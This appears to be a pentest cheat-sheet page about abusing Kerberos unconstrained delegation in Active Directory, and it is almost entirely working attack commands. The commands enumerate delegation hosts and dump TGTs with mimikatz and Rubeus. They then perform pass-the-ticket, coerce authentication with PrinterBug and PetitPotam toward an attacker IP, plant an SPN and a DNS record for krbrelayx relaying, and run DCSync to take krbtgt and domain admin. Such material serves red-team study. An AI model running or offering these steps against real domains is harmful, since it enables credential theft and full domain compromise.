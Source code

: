 # Unconstrained Delegation

The first hop server can request access to any service on any computer

## Requirements: UAC: ADS_UF_TRUSTED_FOR_DELEGATION

## Tools: Rubeus , mimikatz 

# Enumerate Computers with Unconstrained Delegation

    Get-NetComputer -UnConstrained

##### With AD Module

    Get-ADComputer -Filter {TrustedForDelegation -eq $True}
    Get-ADUser -Filter {TrustedForDelegation -eq $True}

# Get tickets

After compromising the computer with UD enabled, we can trick or wait for an admin connection

#### 1) mimikatz

    mimikatz "privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export (Get TGT ticket)

#### 2) Rubeus

    Rubeus dump /service:krbtgt /nowrap (Get TGT ticket)

    Rubeus dump /luid:0xdeadbeef /nowrap (Get TGT ticket)

# Reuse the ticket (Pass-the-Ticket

    Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'

# Force_coercion_with_coerced_auth

#### 1) To force another computer to connect to the compromised machine in UD, and capture the TGT by monitoring:

    Rubeus monitor /interval:5 /nowrap (Get TGT)

On the attacking machine, run

##### PrinterBug

    .\MS-RPRN.exe \\<target>.domain.local \\unconstrainedMachine.domain.local

##### PetitPotam

    .\PetitPotam.exe attacker_ip <target>.domain.local

### We get the ticket, then we move laterally with Pass the Ticket. If the target is a DC, we do a DC Sync to get Domain Admin access

    .\Rubeus.exe ptt /ticket:...

##### DCSync with the dc TGT

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

# Any principal in Unconstrained Delegation

If we have enough rights against a principal (computer or user) in UD to add a SPN on it and know its password, we can try to use it to retrieve a machine account password from an authentication coercion.

### 1) Add a new DNS record on the domain that points to our IP

### 2) Add a SPN on the principal that points to the DNS record and change its password (will be useful for the tool krbrelayx.py to extract the TGT from the ST)

### 3) Trigger the authentication and grab the ST (and TGT in it) on krbrelayx that is listening for it

Since the principal is in Unconstrained Delegation, when the machine account will send the ST to the SPN it will automatically add a TGT in it, and because the SPN is pointing to us with the DNS record, we can retrieve the ST, decipher the ciphered part with the user password (the SPN is setup on the user, so the ST is ciphered with his password), and retrieve the TGT.

##### Add the SPN with the Microsoft module

    Set-ADUser -Identity <principal_in_UD> -ServicePrincipalName @{Add='HOST/test.domain.local'}

##### Create the DNS record

    Invoke-DNSUpdate -DNSType A -DNSName test.domain.local -DNSData <attacker_IP> -Realm domain.local

##### Run krbrelayx with the hash of the password setup on the UD user

    python3 krbrelayx.py -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -dc-ip dc.domain.local

##### Trigger the coercion

    .\PetitPotam.exe <attacker_ip> <target_IP>

# Linux

##### Add the SPN

    python3 addspn.py -u 'domain.local\user1' -p 'password' -s 'HOST/attacker.domain.local' -t 'target.domain.local' --additional <DC_IP>

##### Create the DNS record

    python3 dnstool.py -u 'domain.local\user1' -p 'password' -r 'attacker.domain.local' -d '<attacker_IP>' --action add <DC_IP>

##### Run krbrelayx with the hash of the password of the principal

    python3 krbrelayx.py -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -dc-ip dc.domain.local

##### Trigger the coercion

    ./petitpotam.py -u user1 -p password -d domain.local -pipe all "attacker.domain.local" <target_IP>
